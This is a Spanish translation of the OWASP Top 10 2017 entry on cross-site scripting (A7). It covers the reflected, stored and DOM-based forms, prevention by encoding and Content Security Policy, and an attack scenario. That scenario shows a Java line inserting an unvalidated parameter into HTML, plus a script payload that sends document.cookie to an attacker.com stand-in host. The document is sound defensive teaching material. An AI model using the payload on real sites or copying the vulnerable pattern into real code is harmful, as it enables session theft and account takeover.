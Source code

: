 # A7:2017 Secuencia de Comandos en Sitios Cruzados (XSS)

| Agentes de amenaza/Vectores de ataque | Debilidades de seguridad         |      Impactos       |
| -- | -- | -- |
| Nivel de acceso : Explotabilidad 3    | Prevalencia 3 : Detectabilidad 3 | Técnico 2 : Negocio |
| Existen herramientas automatizadas pueden detectar y explotar las tres formas de XSS, y también se encuentran disponibles kits de explotación gratuitos. | XSS es la segunda vulnerablidad más frecuente en OWASP Top 10, y se encuentra en alrededor de dos tercios de todas las aplicaciones. Las herramientas automatizadas pueden detectar algunos problemas XSS en forma automática, particularmente en tecnologías maduras como PHP, J2EE / JSP, y ASP.NET. | El impacto de XSS es moderado para el caso de XSS Reflejado y XSS en DOM, y severa para XSS Almacenado, que permite ejecutar secuencias de comandos en el navegador de la víctima, para robar credenciales, secuestrar sesiones, o la instlación de software malicioso en el equipo de la víctima. |

## ¿La aplicación es vulnerable?

Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:

* **XSS Reflejado**: La aplicación o API utiliza datos suministrados por un usuario sin ser validados o codificados apropiadamente como parte del HTML de salida o cuando no existe un cabezal que establezca la política de seguridad de contenido ([CSP](https://www.owasp.org/index.php/Content_Security_Policy)). Un ataque exitoso puede permitir al atacante ejecutar comandos arbitrarios HTML y Javascript en el navegador de la víctima. Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, como un ataque del tipo pozo de agua, publicidad maliciosa, o similar.
* **XSS Almacenado**: La aplicación o API almacena datos proporcionados por el usuario sin validar ni sanear, la que posteriormente es entregada a otro usuario o un administrador. XSS Almacenado es usualmente considerado como de riesgo de nivel alto o crítico.
* **XSS Basados en DOM**: Frameworks en JavaScript, aplicaciones de página única o APIs que dinámicamente incluyen datos controlables por un atacante son vulnerables al DOM XSS. Idealmente, se debe evitar enviar datos controlables por el atacante a APIs no seguras.

Típicamente los ataques XSS incluyen el robo de la sesión, apropiación de la cuenta, evasión de autentificación de múltiples pasos, reemplazo de DIV o degradación (como troyanos de autentificación), ataques contra el navegador del usuario como la descarga de software malicioso, grabadores de tecleo, y otros tipos de ataques al lado cliente.


## ¿Como prevenirlo?

Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.

* Utilizar marcos de trabajo seguros que por diseño automáticamente codifiquen el contenido para prevevenir XSS, como en Ruby 3.0 o React JS.
* Codificar datos de requerimientos HTTP no confiables en el contexto de la salida de HTML (cuerpo, atributos, JavaScript, CSS, o URL) resolverán las vulnerabilidades del tipo XSS Reflejado y XSS Almacenado. La hoja de trucos [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) tiene detalles de las técnicas de codificación de datos requeridas.
* Aplicar codificación sensitiva al contexto cuando se modifica el documento en el navegador en el lado cliente, ayuda a prevevenir DOM XSS. Cuando esta técnica no se puede aplicar, técnicas similares de codificación sensitiva se pueden aplicar a las APIs del navegador, como se explica en la hoja de trucos [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Habilitar una Política de Seguridad de Contenido [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales como sobreescritura de caminos (path traversal overwrite), o bibliotecas vulnerables de fuentes conocidas, como redes de distribución de contenidos (CDN) o bibliotecas locales.


## Ejemplos de escenarios de ataques

**Escenario #1**: La aplicación utiliza datos no confiables en la construcción del siguiente código HTML sin validarlos o codificarlos:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

El atacante modifica el parámetro “CC” en el navegador a:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

Este ataque causa que el identificador de sesión de la víctima sea enviado al sitio web del atacante, permitiendo al atacante secuestrar la sesión actual del usuario.

**Note**: Atacantes pueden también utilizar XSS para anular cualquier defensa contra Falsificación de Peticiones en Sitios Cruzados (CSRF) que la aplicación pueda utilizar.

## Referencias (en Inglés)

### OWASP

* [Controles Proactivos de OWASP: #3 Codificación de datos](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Controles Proactivos de OWASP: #4 Validación de datos](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Estándar de Verificación de Seguridad en Aplicaciones de OWASP: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [Guía de Pruebas de OWASP: Pruebas para XSS Reflejados](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Guía de Pruebas de OWASP: Pruebas para XSS Almacenados](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [Guía de Pruebas de OWASP: Pruebas para XSS basados en DMO](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [Hoja de ayuda de OWASP: Prevención de XSS](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [Hoja de ayuda de OWASP: Prevención de XSS basado en DOM](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [Hoja de ayuda de OWASP: Evación de filtros de XSS](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### Externas

* [CWE-79 Inapropiada neutralización de entradas de datos suministradas por usuarios](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Plantillas para la inyección del lado del cliente](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
